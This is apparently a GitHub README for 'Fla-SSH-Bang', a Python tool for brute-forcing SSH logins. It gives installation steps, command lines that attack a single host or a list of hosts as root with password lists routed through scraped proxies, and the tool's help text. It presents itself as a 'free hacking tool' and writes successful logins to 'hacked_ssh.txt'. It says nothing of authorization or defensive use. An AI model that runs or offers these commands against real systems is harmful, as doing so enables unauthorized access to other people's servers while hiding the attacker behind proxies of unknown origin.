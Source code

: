 # Fla-SSH-Bang
Extremely super fast lightspeed SSH bruteforce tool written in Python.

**PS:** The files `coolproxies.txt` and `passlist_2023.txt` are only samples of combo lists. You may use [Proxal](https://github.com/lilmond/Proxal) for fetching fresh proxy lists, and also don't forget to pull better password list from [SecLists](https://github.com/danielmiessler/SecLists).

https://discord.com/invite/Bnf3e8pkyj

follow me for more free hacking tools :3

![image](https://github.com/user-attachments/assets/a45ef85b-e9b7-4c2a-acf2-84d932df7186)

# Where to get proxies?
You can use my proxy list scraper here (Proxal): https://github.com/lilmond/Proxal

# Installation
Ubuntu 20.04
```
git clone https://github.com/lilmond/flasshbang
cd flasshbang
pip install -r requirements.txt
```
Ubuntu 24.04
```
git clone https://github.com/lilmond/flasshbang
cd flasshbang
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

# Usage
Single host target
```
python flasshbang.py <target ip> -u root -P passlist_2023.txt -pp coolproxies.txt 
```

Multi-hosts
```
python flasshbang.py -M <host list file> -u root -P passlist_2023.txt -pp coolproxies.txt -o hacked_ssh.txt 
```

# Help
```
  ______ _              _____ _____ _    _        ____                    _
 |  ____| |            / ____/ ____| |  | |      |  _ \  lilmond@github  | |
 | |__  | | __ _ _____| (___| (___ | |__| |______| |_) | __ _ _ __   __ _| |
 |  __| | |/ _` |______\___ \\___ \|  __  |______|  _ < / _` | '_ \ / _` | |
 | |    | | (_| |      ____) |___) | |  | |      | |_) | (_| | | | | (_| |_|
 |_|    |_|\__,_|     |_____/_____/|_|  |_|      |____/ \__,_|_| |_|\__, (_)
                                                                     __/ |
                                                                    |___/
usage: flasshbang.py [-h] [-p PORT] [-u USERNAME] -P PASSLIST -pp PROXY_LIST [-t THREADS] [-T THREADS_MULTI]
                     [-M HOST_LIST] [-o OUTPUT]
                     [hostname]

Fla-SSH-Bang! Inspired by vanhauser's hydra (also shoutout to him for creating that wonderful tool!). Super fast SSH
bruteforce tool powered by proxies that who knows where they came from. Written in Python! Number 1 language in the
world!

positional arguments:
  hostname              Target IP address.

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Target port. Default is set to 22.
  -u USERNAME, --username USERNAME
                        SSH user to attack. The default is set to root.
  -P PASSLIST, --passlist PASSLIST
                        Your favorite password list from SecLists!
  -pp PROXY_LIST, --proxy-list PROXY_LIST
                        Not the size of your penis, but the longer your proxy list is, the better!
  -t THREADS, --threads THREADS
                        Threads, idk how to explain what threads are. But the default is set to 10! The more threads,
                        the faster!
  -T THREADS_MULTI, --threads-multi THREADS_MULTI
                        Threads for multi hosts. The default is 3
  -M HOST_LIST, --host-list HOST_LIST
                        File list of hosts to attack.
  -o OUTPUT, --output OUTPUT
                        Success logins output file.
```
